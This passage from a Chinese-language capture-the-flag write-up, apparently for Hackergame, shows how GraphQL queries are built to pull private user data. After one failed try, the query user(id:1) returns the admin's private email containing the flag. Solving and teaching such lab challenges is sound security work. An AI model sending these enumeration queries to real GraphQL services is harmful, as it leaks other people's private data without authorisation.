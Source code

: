 ```json
                        },
                        "description": "Get a specific user information"
                    }
                ]
            }
        }
    }
}
```

知道了 query name，就可以构造用户查询 payload 了。不过注意这个查询是 `Get a specific user information`，也就是说 argument 是至少需要一个的，否则会返回 NoneType，但是此时我们不知道这个 queryType 有啥 argument，我们知道的只有示例的 username

尝试构造 Body

```json
{
    "query": "{user(username:Guest){username,privateEmail}}"
}
```

回显

```json
{
    "errors": [
        {
            "message": "Unknown argument 'username' on field 'Query.user'.",
            "locations": [
                {
                    "line": 1,
                    "column": 7
                }
            ],
            "path": null
        }
    ]
}
```

那么换个 argument 试试

尝试构造 Body

```json
{
    "query": "{user(id:1){username,privateEmail}}"
}
```

回显

```json
{
    "data": {
        "user": {
            "username": "admin",
            "privateEmail": "flag{dont_let_graphql_l3ak_data_9f34dccd08@hackergame.ustc}"
        }
    }
}
```
